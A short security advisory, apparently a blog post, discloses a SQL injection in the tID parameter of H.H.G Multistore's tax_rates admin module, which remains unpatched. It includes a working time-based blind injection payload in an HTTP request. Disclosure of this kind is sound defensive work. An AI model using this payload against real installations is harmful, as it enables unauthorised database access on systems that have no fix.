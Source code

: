 ```yaml
---
title: "H.H.G Multistore - SQL-Injection in tID"
date: 2022-05-05
draft: false
authors: ["blocki"]
tags: ["advisory"]
description: "SQL-Injection H.H.G Multistore"
featuredImage: "/alert.jpg"
featuredImagePreview: "/alert_crop.png"
---
```


Security vulnerabilities were found in [H.H.G Multistore](https://www.hhg-multistore.com/).

There is no patch available. This product seems to be end of life, last versions were published 4/5 years ago.

<!--more-->

The following products are affected:

| Product            | Version  |
|--------------------|----------|
| Enterprise Edition | <= 5.1.0 |
| Community Edition  | 4.10.3   |

I did not test the exclusive edition.

## Timeline
- 05/05/2022: Request CVE-ID(s)
- 07/05/2022: Publish Advisory


## SQL-Injection - tID
The `tID` parameter in the `tax_rates` module is vulnerable to SQL-Injection.

The original request looks like this:

```
GET /admin/index.php?module=tax_rates&tID=1 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: HHGsid=1834c426aaf341d09a7942a3990d720a
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
```

The following payload was used:

```
GET /admin/index.php?module=tax_rates&tID=module=tax_rates&tID=1'%20AND%20(SELECT%203172%20FROM%20(SELECT(SLEEP(5)))Wjjj)--%20- HTTP/1.1
[...]
```
